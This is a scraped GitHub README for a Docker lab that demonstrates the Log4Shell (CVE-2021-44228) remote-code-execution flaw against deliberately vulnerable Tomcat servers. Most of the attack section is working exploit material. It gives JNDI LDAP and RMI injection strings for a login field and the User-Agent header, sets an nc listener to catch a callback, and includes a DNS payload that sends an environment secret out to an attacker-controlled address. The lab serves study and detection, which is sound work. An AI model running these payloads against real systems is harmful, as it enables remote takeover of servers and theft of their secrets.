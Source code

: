 # log4j-poc

A Docker based LDAP RCE exploit demo for CVE-2021-44228 Log4Shell

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/cyberxml](https://github.com/cyberxml) |
| Url      | [https://github.com/cyberxml/log4j-poc](https://github.com/cyberxml/log4j-poc)                                               |
| Stars    | 63                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-44228* exploit* log4j* log4shell* poc

</details>

## Readme

# log4j-poc

## An LDAP RCE exploit for CVE-2021-44228 Log4Shell 

### Description

The demo Tomcat 8 server on port 8080 has a vulnerable app (log4shell) deployed on it and the server also vulnerable via user-agent attacks.

The remote exploit app in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

This demo tomcat server (Tomcat 8.5.3, Java 1.8.0u51) has been reconfigued to use Log4J2 for logging - a non-standard configuration.

A newer Bitnami server is now available on port 8888. It is also is configured for Log4J2 logging and is running Tomcat 9.0.55 and OpenJDK 11.0.13.

The RMI exploit against the Tomcat 9 / Java 11 server is described here: https://www.veracode.com/blog/research/exploiting-jndi-injections-java (Jan 3, 2019) by Michael Stepankin

The detection script will check for user-agent vulnerablities and is from here: https://gist.github.com/byt3bl33d3r/46661bc206d323e6770907d259e009b6
 

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` 
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
#   POC_ADDR is the address of the cve-poc container
#   LISTENER_ADDR is the address of the 'nc' listener e.g. the docker host
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run Web App Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener

### Run a User Agent Attack Demo

1. Setup your docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. In a third terminal, run the following. The second IP is the docker host
    1. `curl -A "\${jndi:ldap://172.16.238.11:1389/a}" http://10.10.10.31:8080/log4shell`

### Run a DNS Exfil Demo on Recent Java 11 version

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:dns://10.10.10.31/\${env:POC_PASSWORD}}" http://10.10.10.31:8888/log4shell/`
1. The vulnerable web server will attempt to do a TXT lookup at the given IP. See log4j-dns_exfil.pcap


### Run an RMI RCE Demo on Recent Java 11 version

I am having issues with command line arg for ping target. So you have to compile yourself.

#### Compile 
1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In another terminal, Login to the cve-poc
    1. `docker exec -it log4j-poc_cve-poc_1 /bin/bash`
1. Kill running RMIServerPOC instance
1. Change to rmi-poc directory
    1. `cd /home/user/rmi-poc`
1. Edit RMIServerPOC.java to change 10.10.10.31 to your ping target
1. Recompile
    1. `javac -cp catalina.jar:. RMIServerPOC.java`
1. Run the Server
    1. `javac -cp catalina.jar:. RMIServerPOC 127.0.0.1`

#### Run RMI RCE Demo

1. Start the docker containers in a terminal
    1. `docker-compose up`
1. In a second terminal, run the following. The IP is the ip address of the docker host
    1. `curl -A "\${jndi:rmi://172.16.238.11:1097/Object}" http://10.10.10.31:8888/`
1. The vulnerable web server will download a serialized malicious class from the RMI server for a class which already exists in the Tomcat environment.
1. This will ping the IP address defined in the compile section. 


### Detect UA Vulnerability
1. cd scripts
1. `python3 log4j_rce_check.py http://10.10.10.31:8080/log4shell --attacker-host 10.10.10.31:11389 --timeout=2`
1. you will have to kill the process, not sure yet why this hangs



## Get the content

```
git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
```

{% embed url="https://github.com/cyberxml/log4j-poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/10391872?v=4" alt=""><figcaption><p>cyberxml</p></figcaption></figure>
